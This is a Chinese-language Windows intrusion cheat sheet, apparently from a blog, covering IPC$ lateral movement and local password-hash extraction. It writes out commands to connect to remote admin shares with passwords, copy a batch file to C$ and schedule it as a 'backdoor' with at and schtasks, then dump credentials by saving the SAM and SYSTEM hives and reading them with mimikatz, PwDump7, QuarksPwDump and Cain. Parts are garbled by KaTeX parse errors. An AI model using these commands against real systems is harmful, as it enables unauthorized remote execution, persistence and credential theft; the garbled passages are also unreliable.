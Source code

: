 # 1\. 常用windows连接和相关命令

1）,windows远程连接
mstsc 远程桌面
vnc 远程桌面
ipc ipc$共享 … 2)，IPC利用条件： 1，开启了139、445端口 2，管理员开启了默认共享 3），开启ipc共享 net share ipc$

建立ipc连接：
net use \\192.168.1.1\\ipc$ “tys@123!” /user:administrator
查看连接状态：
net use
查看远程主机进程运行情况
tasklist /s 192.168.63.131 /u administrator /p af@123!
查看远程主机当前时间
net time \\192.168.63.131
向远程主机定时任务添加后门
创建bat文件：start calc.exe
copy calc.bat \\192.168.63.131\\c$
at \\192.168.63.131 21:41 c:\\calc.bat

连接失败的原因：
用户名或者密码错误
目标没有打开ipc$共享 不能成功连接目标的139、445端口 命令输入错误 Dir命令： 成功建立后，可以使用dir命令列出远程主机文件 dir \\192.168.63.131\c$

KaTeX parse error: Expected group as argument to '\\c' at end of input: …92.168.63.131\\c

添加计划任务使用cmd执行命令：
at \\192.168.63.131 21:41 cmd.exe /c “ipconfig >c:/1.txt”
type \\192.168.63.131\\c$\1.txt Schtasks 替代at添加计划任务命令： schtasks /create /s 192.168.63.8 /tn test /sc onstart /tr c:\calc.bat /ru system /f 激活计划任务： schtasks /run /s 192.168.63.8 /I /tn “test” 删除计划任务： schtasks /delete \\192.168.63.131 /tn “test” /f 删除ipc连接：net use \\192.168.63.131\ipc$

KaTeX parse error: Undefined control sequence: \\1 at position 1: \\̲1̲.txt Schtasks替代…/del
计划任务会产生日志，存储位置为： C://windows/boot/task/SchedLgU.txt

# 2\. Windows系统散列值获取分析

- LM Hash和NTLM Hash（>2008）
    Windows系统一般使用两种方法对用户的明文密码进行加密处理。域网络环境中用户信息被存储在htds.dit中。现在的windows密码一般由两部分组成，前半部分为LM
    Hash，后半部分为NTLM Hash。在windows系统中hash的组成结构一般为：username:RID:LM-HASH:NT-HASH
    1.LM Hash全名为LAN Manager Hash，本质是DES加密。
    2.密码不足14字节将会用0来补全。
    3.LM Hash较容易被破解，windows只是将LM Hash从系统中禁用，
    4.LM Hash用户的明文密码将被限定在14位以内。
    5.如果LM Hash被禁用了，我们通过工具抓取到的LM Hash通常为:
    aad3b435b51404eeaad3b435b51403ee，以表示LM Hash为空值或LM Hash被禁用。
- 单机密码抓取

1.  抓取
    GetPass
    PwDump7
    QuarksPwDump --dump-hash-local(-dhl)
    传到目标主机，直接运行即可
    2，通过sam和system文件抓取密码
    1）导出SAM和system文件：
    无工具导出：reg save hklm\\sam sam.hive reg save hklm\\system
    system.hive
    2）通过读取sam和system文件获取HTLM Hash
    使用mimikatz读取sam和system文件：运行mimikatz，输入命令：
    lsadump::sam /sam:sam.hive /system:system.hive
    使用cain读取sam文件，需要关闭防火墙，运行cain，进入cracker模块，选
    中“LM&NTLM”选项，单机加号按钮，选择“import Hash From a SAM
    database”，然后将sam文件导入，单机next按钮。
